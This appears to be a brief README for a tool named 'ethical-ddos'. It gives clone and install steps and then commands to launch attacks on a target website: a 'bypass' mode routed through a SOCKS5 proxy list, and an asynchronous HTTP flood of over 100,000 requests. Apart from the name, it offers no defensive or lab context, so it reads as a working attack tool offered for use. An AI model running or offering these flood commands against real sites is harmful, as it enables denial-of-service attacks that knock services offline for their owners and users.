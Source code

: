 


**Clone and Install Script**

```shell script
[git clone https://github.com/gamal-ahmed/ethical-ddos.git
cd ethical-ddos
pip install -r requirements.txt
```
**To start the attack from Linux-Kali**
The bypass
```shell script
cd ethical-ddos
python3 start.py bypass website 1 101 sockws5.txt 10970 3600 true
```
**Most Effecient to attack from MAC-OS**
```
--debug: for more info and details about the attack
```
```shell script
cd ethical-ddos
python3 asyncio_http.py --urls  website  --total_requests 103002 --debug
```

---

